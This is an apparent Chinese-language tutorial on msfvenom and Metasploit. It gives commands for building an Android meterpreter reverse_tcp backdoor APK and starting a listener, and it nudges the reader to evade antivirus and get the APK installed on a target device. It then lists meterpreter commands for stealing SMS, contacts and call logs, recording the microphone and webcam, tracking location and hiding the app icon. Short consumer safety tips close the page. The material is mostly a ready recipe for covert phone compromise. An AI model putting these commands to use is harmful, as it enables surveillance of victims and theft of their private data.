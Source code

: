 ## msfvenom
> Msfvenom 是 Msfpayload 和 Msfencode 的结合体，将这两个工具集成到一个 Framework 实例中。 2015年6月8日，msfvenom 取代了 msfpayload 和 msfencode。

可利用msfvenom生成木马程序,并在目标机上执行,在本地监听上线,利用Metasploit,对目标主机执行操作。
## 使用方法
--list 列出所有可用的payloads,encoders,nops

--help-formats 查看支持的输出格式

-b 指定需要过滤的坏字符，使用-b选项后，会自动选择编码方式

-e 指定需要使用的编码，如果既没用-e选项也没用-b选项，则输出raw payload

-i 指定payload的编码次数

-x 指定一个exe文件作为模板

-k 保护模板程序的功能，注入的payload作为一个新的进程运行

-p 指定攻击载荷

## 实验生成andorid后门木马

```shell
# 列出所有攻击载荷
msfvenom -l payloads
# 选择安卓攻击载荷,设置ip和端口,生成木马apk文件
msfvenom -p android/meterpreter/reverse_tcp LHOST=$ip LPORT=5555 R > /root/apk.apk
# 生成的文件大小不足10k,(可以考虑一下宿主),然后免杀,....开动你机智的大脑安装在目标设备上
# 打开监听框架
msfconsole
# 加载模块
use exploit/multi/handler
# 选择载荷
set playload android/meterpreter/reverse_tcp
# 设置参数
set lhost $ip
# 开始监听
run
```
## 远程命令(对目标机)


Core Commands
=============

    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    bg                        Alias for background
    bgkill                    Kills a background meterpreter script
    bglist                    Lists running background scripts
    bgrun                     Executes a meterpreter script as a background thread
    channel                   Displays information or control active channels
    close                     Closes a channel
    disable_unicode_encoding  Disables encoding of unicode strings
    enable_unicode_encoding   Enables encoding of unicode strings
    exit                      Terminate the meterpreter session
    get_timeouts              Get the current session timeout values
    guid                      Get the session GUID
    help                      Help menu
    info                      Displays information about a Post module
    irb                       Open an interactive Ruby shell on the current session
    load                      Load one or more meterpreter extensions
    machine_id                Get the MSF ID of the machine attached to the session
    pry                       Open the Pry debugger on the current session
    quit                      Terminate the meterpreter session
    read                      Reads data from a channel
    resource                  Run the commands stored in a file
    run                       Executes a meterpreter script or Post module
    secure                    (Re)Negotiate TLV packet encryption on the session
    sessions                  Quickly switch to another session
    set_timeouts              Set the current session timeout values
    sleep                     Force Meterpreter to go quiet, then re-establish session.
    transport                 Change the current transport mechanism
    use                       Deprecated alias for "load"
    uuid                      Get the UUID for the current session
    write                     Writes data to a channel


Stdapi: File system Commands
============================

    Command       Description
    -------       -----------
    cat           Read the contents of a file to the screen
    cd            Change directory
    checksum      Retrieve the checksum of a file
    cp            Copy source to destination
    dir           List files (alias for ls)
    download      Download a file or directory
    edit          Edit a file
    getlwd        Print local working directory
    getwd         Print working directory
    lcd           Change local working directory
    lls           List local files
    lpwd          Print local working directory
    ls            List files
    mkdir         Make directory
    mv            Move source to destination
    pwd           Print working directory
    rm            Delete the specified file
    rmdir         Remove directory
    search        Search for files
    upload        Upload a file or directory


Stdapi: Networking Commands
===========================

    Command       Description
    -------       -----------
    ifconfig      Display interfaces
    ipconfig      Display interfaces
    portfwd       Forward a local port to a remote service
    route         View and modify the routing table


Stdapi: System Commands
=======================

    Command       Description
    -------       -----------
    execute       Execute a command
    getuid        Get the user that the server is running as
    localtime     Displays the target system's local date and time
    pgrep         Filter processes by name
    ps            List running processes
    shell         Drop into a system command shell
    sysinfo       Gets information about the remote system, such as OS


Stdapi: User interface Commands
===============================

    Command       Description
    -------       -----------
    screenshare   Watch the remote user's desktop in real time
    screenshot    Grab a screenshot of the interactive desktop


Stdapi: Webcam Commands
=======================

    Command        Description
    -------        -----------
    record_mic     Record audio from the default microphone for X seconds
    webcam_chat    Start a video chat
    webcam_list    List webcams
    webcam_snap    Take a snapshot from the specified webcam
    webcam_stream  Play a video stream from the specified webcam


Stdapi: Audio Output Commands
=============================

    Command       Description
    -------       -----------
    play          play a waveform audio file (.wav) on the target system


Android Commands
================

    Command           Description
    -------           -----------
    activity_start    Start an Android activity from a Uri string
    check_root        Check if device is rooted
    dump_calllog      Get call log
    dump_contacts     Get contacts list
    dump_sms          Get sms messages
    geolocate         Get current lat-long using geolocation
    hide_app_icon     Hide the app icon from the launcher
    interval_collect  Manage interval collection capabilities
    send_sms          Sends SMS from target session
    set_audio_mode    Set Ringer Mode
    sqlite_query      Query a SQLite database from storage
    wakelock          Enable/Disable Wakelock
    wlan_geolocate    Get current lat-long using WLAN information


Application Controller Commands
===============================

    Command        Description
    -------        -----------
    app_install    Request to install apk file
    app_list       List installed apps in the device
    app_run        Start Main Activty for package name
    app_uninstall  Request to uninstall application


## 安全建议
* 请在软件的正规渠道去下载软件(有能力的对照一下md5加密)
* 不要随意连接来路不明的WIFI
* 妥善保管自己的手机密码
* 严格管理手机软件的权限
* 刷机有风险特别是国内的官改包